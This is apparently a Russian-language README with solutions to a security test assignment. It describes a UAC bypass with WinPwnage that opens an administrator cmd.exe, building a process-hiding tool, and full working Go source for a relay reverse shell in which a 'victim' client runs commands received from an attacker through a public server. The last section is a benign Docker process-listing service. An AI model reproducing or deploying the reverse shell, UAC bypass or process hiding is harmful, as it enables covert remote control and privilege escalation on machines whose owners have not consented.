




# Задача 2
*Для теста программ в задаче №2 использовалась виртуальная windows 10 191206-1406*

## 2.1 Решение:
Действительно, существует моножество вариантов обойти UAC, например, второй вариант [отсюда](https://github.com/rootm0s/WinPwnage#uac-bypass-techniques)

для начала нужно скомпилировать проект, сделать это можно так
```bash
pip install pyinstaller
pyinstaller --onefile main.py
```

В каталоге dist нас будет ожидать exe файл

далее запускаем его:
```bash
main --use uac --id 2 --payload c:\\windows\\system32\\cmd.exe
```
В результате открывается cmd с правами администратора без UAC



## 2.2 Решение:

Скачиваем проект [отсюда](https://github.com/kernelm0de/ProcessHider).
1. Устанавливаем набор инструментов от 2015 года, чтобы собрать проект.
2. Перенести все файлы из include в папку ProcessHider и поправить импорты в main.cpp в той же папке

3. Открываем проект и обновляем **target platform version до 10**.


Cобираем проект и запускаем от имени администратора/


## 2.3 Решение:

Так как атакуемая машина может находиться за NAT, то можно использовать сервер с белым ip-адресом. В таком случае мы будем общаться с машиной жертвы через сервер-посредник.

Решением является сервер, и два клиента, оба клиента подключаются к серверу, так как у него инвестный белый ip, клиент жертвы просто запускает команды через `exec.Command()`, а клиент-нападающий их отправляет.

[Код](https://github.com/dimosha19/TestTask/tree/main/reverse-shell)

клиент атакующей стороны: 

```go
package main

import (
	"bufio"
	"fmt"
	"log"
	"net"
	"os"
	"sync"
	"time"
)

func sendToServer(conn net.Conn) {
	for {
		reader := bufio.NewReader(os.Stdin)
		fmt.Println(">>>")

		text, err := reader.ReadString('\n')
		if err != nil {
			log.Fatal(err)
		}
		_, err = conn.Write([]byte(text + "\n"))
		if err != nil {
			fmt.Println("connection error")
			return
		}
	}
}

func receiveFromServer(conn net.Conn) {
	for {
		message := bufio.NewScanner(conn)

		for message.Scan() {
			fmt.Println(message.Text())
		}
	}
}

func main() {
	var conn net.Conn
	var err error

	for {
		conn, err = net.Dial("tcp", "127.0.0.1:8081")
		if err == nil {
			break
		}
		fmt.Println("cant connect to srv")
		time.Sleep(time.Second * 1)
	}

	wg := sync.WaitGroup{}
	wg.Add(2)

	go func() {
		defer wg.Done()
		receiveFromServer(conn)
	}()

	go func() {
		defer wg.Done()
		sendToServer(conn)
	}()

	wg.Wait()
}
```

Клиент жертвы:
```go
package main

import (
	"bufio"
	"fmt"
	"io"
	"log"
	"net"
	"os/exec"
	"strings"
	"time"
)

func receiveFromServer(conn net.Conn) {
	for {
		message, err := bufio.NewReader(conn).ReadString('\n')
		if err == io.EOF {
			log.Fatal(err)
		}

		command := strings.Fields(message)

		var cmd *exec.Cmd

		if len(command) == 1 {
			cmd = exec.Command(command[0])
		} else if len(command) > 1 {
			cmd = exec.Command(command[0], command[1:]...)
		} else {
			continue
		}

		cmd.Stdout = conn
		cmd.Stderr = conn

		cmd.Run()
	}
}

func main() {
	var conn net.Conn
	var err error

	for {
		conn, err = net.Dial("tcp", "127.0.0.1:8081")
		if err == nil {
			break
		}
		time.Sleep(time.Second * 1)
	}

	receiveFromServer(conn)
}
```

Сервер:

```go
package main

import (
	"bufio"
	"fmt"
	"log"
	"net"
	"sync"
)

func receiveFromAttackSendToVictim(attc, vict net.Conn) {
	for {
		message, err := bufio.NewReader(attc).ReadString('\n')
		if err != nil {
			log.Fatal(err)
		}

		_, err = vict.Write([]byte(message + "\n"))
		if err != nil {
			fmt.Println("connection error")
			return
		}
	}
}

func receiveFromVictimSendToAttack(attc, vict net.Conn) {
	for {
		scanner := bufio.NewScanner(vict)

		for scanner.Scan() {
			fmt.Println(scanner.Text())
			_, err := attc.Write([]byte(scanner.Text() + "\n"))
			if err != nil {
				fmt.Println("connection error")
				return
			}
		}
	}
}

func main() {
	fmt.Println("Launching server...")

	ln, _ := net.Listen("tcp", "0.0.0.0:8081")
	fmt.Println("Waiting for attack side")
	connAttack, _ := ln.Accept()
	fmt.Println("Waiting for victim side")
	connVictim, _ := ln.Accept()

	wg := sync.WaitGroup{}
	wg.Add(2)

	go func() {
		defer wg.Done()
		receiveFromAttackSendToVictim(connAttack, connVictim)
	}()
	go func() {
		defer wg.Done()
		receiveFromVictimSendToAttack(connAttack, connVictim)
	}()

	wg.Wait()
}
```


# Задача 3

## 3.0 Решение:

Решением является [go-код](https://github.com/dimosha19/TestTask/tree/main/deamon). Список процессов получаем от системы вызывая `exec.Command("ps", "aux")`. Результат команды - сырой текст, его нужно дополнительно форматировать.

## 3.1 Решение:

Описываем dockerfile и собираем его, например такой командой, если находимся в корне проекта

```bash 
docker build -f build/package/dockerfile -t imageName .
```

Чтобы запустить контейнер нужно дополнительно указать **--pid="host"**, чтобы увидеть процессы хоста, а не контейнера.
Например, такой командой:

```bash 
docker run --pid="host" --rm -p 8080:8080 imageName
```

Теперь, если мы зайдем на http://127.0.0.1:8080/process, то сможем увидеть список процессов хоста:


